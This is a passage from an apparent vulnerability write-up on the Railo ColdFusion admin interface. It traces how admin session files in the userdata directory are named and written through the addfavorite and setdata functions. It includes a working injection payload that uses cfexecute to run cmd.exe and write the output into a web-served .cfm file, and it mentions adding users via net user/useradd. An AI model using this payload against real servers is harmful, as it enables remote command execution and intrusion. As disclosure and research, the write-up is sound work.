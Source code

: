 Because I'm using Powershell, this method won't work in Windows XP or Linux systems, but it's trivial to use the next method for that (net user/useradd). 

The second method is to simply write out the result of a command into a file and then retrieve it.  This can trivially be done with the following:

```
':<cfoutput><cfexecute name="c:\windows\system32\cmd.exe" arguments="/c dir > ./webapps/www/WEB-INF/railo/context/output.cfm" timeout="10" variable="output"></cfexecute></cfoutput>'
```

Note that we're writing out to the start of web root and that our output file is a CFM; this is a requirement as the web server won't serve up flat files or txt's.  

Great, we've verfied this works.  Now, how to actually figure out what the hell this session file is called?  As previously noted, the file is saved as either `web-[VALUE].cfm` or `server-[VALUE].cfm`, the prefix coming from the interface you're accessing it from.  I'm going to step through the code used for this, which happens to be a healthy mix of CFML and Java.

We'll start by identifying the session file on my local Windows XP machine: `web-a898c2525c001da402234da94f336d55.cfm`.  This is stored in `www\WEB-INF\railo\context\admin\userdata`, of which `admin\userdata` is accessible from the web root, that is, we can directly access this file by hitting `railo-context/admin/userdata/[file]` from the browser.

When a favorite it saved, `internal.savedata.cfm` is invoked and searches through the given list for the function we're performing:

```
<cfif listFind("addfavorite,removefavorite", url.action2) and structKeyExists(url, "favorite")>
    <cfset application.adminfunctions[url.action2](url.favorite) />
        <cflocation url="?action=#url.favorite#" addtoken="no" />
```

This calls down into `application.adminfunctions` with the specified action and favorite-to-save.  Our addfavorite function is as follows:

```
<cffunction name="addfavorite" returntype="void" output="no">
        <cfargument name="action" type="string" required="yes" />
        <cfset var data = getfavorites() />
        <cfset data[arguments.action] = "" />
        <cfset setdata('favorites', data) />
    </cffunction>
```

Tunneling yet deeper into the rabbit hole, we move forwards into setdata:

```
<cffunction name="setdata" returntype="void" output="no">
        <cfargument name="key" type="string" required="yes" />
        <cfargument name="value" type="any" required="yes" />
        <cflock name="setdata_admin" timeout="1" throwontimeout="no">
            <cfset var data = loadData() />
            <cfset data[arguments.key] = arguments.value />
            <cfset writeData() />
        </cflock>
    </cffunction>
```
